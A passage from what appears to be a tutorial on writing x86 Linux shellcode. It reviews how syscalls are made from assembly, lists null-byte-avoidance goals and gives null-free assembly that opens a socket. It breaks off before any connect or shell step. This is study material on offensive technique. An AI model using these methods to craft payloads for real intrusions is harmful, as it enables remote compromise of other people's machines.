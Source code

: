 # Syscalls from Assembly
Before we head off on this trip lets remind our selves of how syscalls happen
from assembly. Below is the order of business
- Put the syscall number in the eax register
- Setup the syscall params using EBX, ECX and EDX, syscalls with more params
  either use the stack or other registers sucj as ESI
- Call interupt 0x80 to trigger the call
- Results of the syscall gets returned in EAX

Lets also refresh ourselves on the desired characteristics of our shellcode
- Small as possible (this means being crafty with params etc)
- No bad chars such as NULL (meaning we want to use the appropriate registers)
- Port numbers need to be in Network byte order or Big Endian

# Lets Begin

First thing we going to need to do is zero out our registers so we have a clean
slate

```x86asm
        xor eax, eax            ; Zero out registers
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
```

With that out the way lets now take a look at the socket syscall docs (link
above)

```c
  sockfd = socket(int socket_family, int socket_type, int protocol);
```
Right so the registers need to be as follows
- EAX: 359 for socket syscall (see above)
- EBX: 2 for AF_INET (1st param)
- ECX: 1 for SOCK_STREAM (2nd param)
- EDX: 0 for IP (3rd param which is already set via xor above)

If all goes well we should get a file descriptor to a sock back in EAX. Heres
the code

```x86asm
        mov bl, 0x2             ; AF_INET
        inc cl                  ; SOCK_STREAM = 1 - Leave EDX 0 for IP
        mov ax, 0x0167          ; Socket syscall number
        int 0x80                ; make call
```

Notice how we used the 8 bit versions of EBX and ECX to avoid NULLs and also how
we used "inc cl" to save a byte as apposed to a mov instruction. We used the 16
bit version of EAX to avoid NULL and because 0x167 in hex (359 dec) needs two
bytes.

So at this point we are assuming everything went ok (we are writing shellcode
and we cant spare the bytes for error checking) which means that there should be
a socket file descriptor sat in EAX waitning for us, the problem is we need EAX
for our next syscall so we shall have to save it somewhere! Lets use EDI
